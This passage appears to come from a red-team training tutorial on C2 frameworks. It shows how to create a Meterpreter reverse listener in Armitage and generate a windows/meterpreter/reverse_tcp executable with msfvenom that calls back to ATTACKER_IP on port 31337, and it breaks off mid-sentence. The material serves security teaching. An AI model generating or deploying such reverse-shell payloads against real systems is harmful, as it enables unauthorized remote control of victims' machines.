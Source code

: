 Next, we’re going to move onto a topic that all C2 servers have — this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let’s create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the “Listeners” section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

![](https://miro.medium.com/v2/resize:fit:1392/0*T5eEX_jDFttkKMn3.png)

_Creating a Listener in Armitage_

After clicking “Reverse,” a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, “Shell” or “Meterpreter”. Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

![](https://miro.medium.com/v2/resize:fit:710/0*Ajd97tiimBmxHQPe.png)

_Configuring the Listener_

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

![](https://miro.medium.com/v2/resize:fit:1400/0*wuJlnKUvew-loj5n.png)

_Listener successfully configured_

After setting up a listener, you can generate a standard windows/meterpreter/reverse\_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.

**Getting a Callback**

MSFVenom Payload Generation

```
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x86 from the payloadNo encoder specified, outputting raw payloadPayload size: 354 bytesFinal size of exe file: 73802 bytesSaved as: shell.exe
```

After generating the windows/meterpreter/reverse\_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

![](https://miro.medium.com/v2/resize:fit:1400/0*gp58nY0czkD4hykN.png)

_Callback from the Victim_

Listener Type

As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover, these being the following:
